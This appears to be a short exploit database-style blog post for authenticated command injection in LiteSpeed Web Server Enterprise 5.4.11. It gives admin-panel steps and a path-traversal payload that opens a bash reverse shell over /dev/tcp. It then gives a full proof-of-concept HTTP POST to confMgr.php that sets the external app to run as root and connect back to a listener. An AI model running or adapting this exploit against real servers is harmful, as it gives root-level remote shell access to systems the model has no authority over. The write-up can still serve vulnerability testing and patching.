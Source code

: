 ```yaml
---
layout: post
title: LiteSpeed Web Server Enterprise 5.4.11 - Command Injection (Authenticated)
date: 2021-02-07 00:00:01 +5:30
categories: [Medium]
tags: [Bug, Exploit] # add tag
---
```


### Date: 05/20/2021
### Exploit Author: cmOs - SunCSR
### Vendor Homepage: https://www.litespeedtech.com/
### Software Link: https://www.litespeedtech.com/products
### Version: 5.4.11
### Ubuntu/Kali Linux


Step 1: Log in to the dashboard using the Administrator account.
Step 2 : Access Server Configuration > Server > External App > Edit
Step 3: Set "Start By Server *" Value to "Yes (Through CGI Daemon)
Step 4 : Inject payload "fcgi-bin/lsphp5/../../../../../bin/bash -c 'bash -i >& /dev/tcp/127.0.0.1/1234 0>&1'" to "Command" value
Step 5: Graceful Restart

[POC]

```bash
POST /config/confMgr.php HTTP/1.1
Host: 192.168.1.6:7080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:85.0) Gecko/20100101
Firefox/85.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*
;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer:
https://192.168.1.6:7080/config/confMgr.php?m=serv&p=ext&t=A_EXT_FCGI&r=file&a=E&tk=0.59220300%201612516386
Content-Type: application/x-www-form-urlencoded
Content-Length: 505
Origin: https://192.168.1.6:7080
Connection: close
Cookie: LSWSWEBUI=85fa7ba9b37d18d57e41e092a2a2a61f;
lsws_uid=j%2FsI8GRiKBc%3D; lsws_pass=c7pC2izvdbQ%3D
Upgrade-Insecure-Requests: 1

name=file&address=127.0.0.1%3A5434&note=&maxConns=2000&env=&initTimeout=1&retryTimeout=1&persistConn=1&pcKeepAliveTimeout=20&respBuffer=0&autoStart=1&path=fcgi-bin%2Flsphp5%2F..%2F..%2F..%2F..%2F..%2Fbin%2Fbash+-c+%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.1.6%2F1234+0%3E%261%27&backlog=&instances=&extUser=root&extGroup=root&umask=&runOnStartUp=3&extMaxIdleTime=&priority=&memSoftLimit=&memHardLimit=&procSoftLimit=&procHardLimit=&a=s&m=serv&p=ext&t=A_EXT_FCGI&r=file&tk=0.59220300+1612516386&file_create=
```
